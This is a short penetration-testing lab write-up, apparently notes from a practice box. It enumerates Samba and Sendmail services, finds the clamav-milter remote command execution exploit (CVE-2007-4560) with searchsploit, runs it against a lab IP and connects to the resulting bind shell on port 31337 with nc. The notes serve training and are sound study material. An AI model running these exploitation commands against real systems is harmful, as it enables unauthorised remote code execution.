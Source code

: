 	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.14a-Debian)
	|   NetBIOS computer name: 
	|   Workgroup: WORKGROUP\x00
	|_  System time: 2023-11-10T05:43:59-05:00


# Port 	22 - ssh
# Port 25 smtp - Path2Root
	25/tcp    open  smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
		| smtp-commands: localhost.localdomain Hello [192.168.45.241], pleased to meet you, ENHANCEDSTATUSCODES, PIPELINING, EXPN, VERB, 8BITMIME, SIZE, DSN, ETRN, DELIVERBY, HELP
		|_ 2.0.0 This is sendmail version 8.13.4 2.0.0 Topics: 2.0.0 HELO EHLO MAIL RCPT DATA 2.0.0 RSET NOOP QUIT HELP VRFY 2.0.0 EXPN VERB ETRN DSN AUTH 2.0.0 STARTTLS 2.0.0 For more info use "HELP <topic>". 2.0.0 To report bugs in the implementation send email to 2.0.0 sendmail-bugs@sendmail.org. 2.0.0 For local information send email to Postmaster at your site. 2.0.0 End of HELP info

```sh
searchsploit sendmail
```
	Sendmail with clamav-milter < 0.91.2 - Remote Command Execution 
RCE Exploit with both Sendmail and ClamAV in the name so worth a shot

```
searchsploit -p 4761 
```
	  Exploit: Sendmail with clamav-milter < 0.91.2 - Remote Command Execution
	      URL: https://www.exploit-db.com/exploits/4761
	     Path: /snap/searchsploit/387/opt/exploitdb/exploits/multiple/remote/4761.pl
	    Codes: CVE-2007-4560
	 Verified: True
	File Type: <missing file package>

Check exploit 
![[Pasted image 20231110012951.png]]
	Exploit also called "Black-hole"
	Seems to open up a port on 31337

Run exploit and confirm
```sh
perl 4761.pl 192.168.181.42
```
![[Pasted image 20231110013503.png]]
	Elite service open on port 31337

Connect to it and check for data responses
```sh
nc 192.168.181.42 31337
```

Check Privileges 
![[Pasted image 20231110013701.png]]

